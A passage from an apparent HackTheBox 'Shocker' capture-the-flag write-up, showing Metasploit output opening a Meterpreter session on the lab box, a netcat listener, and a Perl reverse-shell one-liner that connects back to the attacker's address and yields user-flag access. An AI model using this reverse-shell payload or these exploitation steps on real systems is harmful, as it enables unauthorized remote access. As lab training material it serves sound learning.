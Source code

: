 ```
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.20:4444 -> 10.10.10.56:59158) at 2021-02-28 22:30:07 +0100

meterpreter > getuid
Server username: shelly @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > ls -l
Listing: /usr/lib/cgi-bin
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  113   fil   2017-09-22 21:29:26 +0200  user.sh

```
We open a netcat on port 5555 on our box for a reverse shell:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker]
└─$ nc -lnvp 5555 
listening on [any] 5555 ...
```

We execute this script to create an reverse shell outside our environment:

```
perl -e 'use Socket;$i="10.10.14.20";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We gain access to the box and find the user flag:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker]
└─$ nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 40466
/bin/sh: 0: can't access tty; job control turned off
$ 
$ ls -l
total 4
-r--r--r-- 1 root root 33 Feb 28 15:21 user.txt
```

![ImgPlaceholder](screenshots/user-flag.png)
